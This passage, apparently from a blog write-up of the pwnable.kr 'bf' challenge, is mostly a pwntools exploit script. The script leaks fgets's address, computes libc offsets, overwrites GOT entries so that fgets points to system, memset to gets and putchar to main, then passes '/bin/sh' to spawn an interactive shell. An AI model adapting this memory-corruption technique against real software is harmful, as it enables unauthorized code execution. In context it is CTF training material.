     s.sendline(payload)
 
 
def main():
    s = remote("pwnable.kr", 9001)
 
    #rcv = s.recvuntil(']')                            # you should also wait '\n'....
    rcv = s.recvuntil(']\n')
    print(rcv)
    
    do_bf(s)                                        # send payload to do brain fuck
 
    loaded_fgets_addr = u32(s.recvn(4))             # read address of fgets got address
 
    base_addr     = loaded_fgets_addr - fgets_offset     # get base address of loaded binary
    gets_addr     = base_addr + gets_offset            # get address of gets in memory
    system_addr = base_addr + system_offset            # get address of system in memory
 
    s.send(p32(system_addr))                        # overwrite fgets to system
    s.send(p32(gets_addr))                            # overwrite memset to gets
    s.send(p32(main_addr))                            # overwrite putchar to main
    s.sendline("/bin/sh")                            # pass argument to gets function
 
    s.interactive()                                    # get shell
 
main()
{% endhighlight %}
<br><br>
![11]({{"/assets/img/security/pwnable/17/11.png" | absolute_url}})

<br><br>
{% highlight bash %}
BrainFuck? what a weird language..
{% endhighlight %}


